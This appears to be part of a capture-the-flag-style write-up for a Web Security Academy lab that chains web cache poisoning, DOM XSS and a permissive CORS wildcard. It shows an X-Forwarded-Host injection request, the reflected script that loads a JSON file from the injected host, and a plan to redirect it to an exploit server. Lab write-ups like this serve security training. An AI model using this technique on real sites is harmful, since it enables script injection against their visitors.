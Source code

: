 #### Solution

This lab has 3 parts:
- Cache Poisoning
- DOM XSS
- Relaxation of CORS specifications with wildcards

##### Cache Poisoning

Navigate to Home Page then check headers with Param Miner to find
- `X-Forwarded-Host`

Send the Request:
```http
GET /?cb=whitedandelion HTTP/2
Host: my.web-security-academy.net
...
X-Forwarded-Host: omnissiah.com


```

And notice in Response:
```html
<script>
	data = {"host":"omnissiah.com","path":"/"}
</script>

...

<script>
	initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

Check the Response for `GET /resources/json/geolocate.json HTTP/2` in HTTP History and notice it returns:

```json
{
    "country": "United Kingdom"
}
```

That reflects on home page as:
```
Free shipping to United Kingdom
```
```html
<div id="shipping-info" class="shipping-info">
	<img src="/resources/images/localShipping.svg">
	<div>Free shipping to United Kingdom</div>
</div>
```


Similarly to previous labs we will change this to point to our Exploit Server.
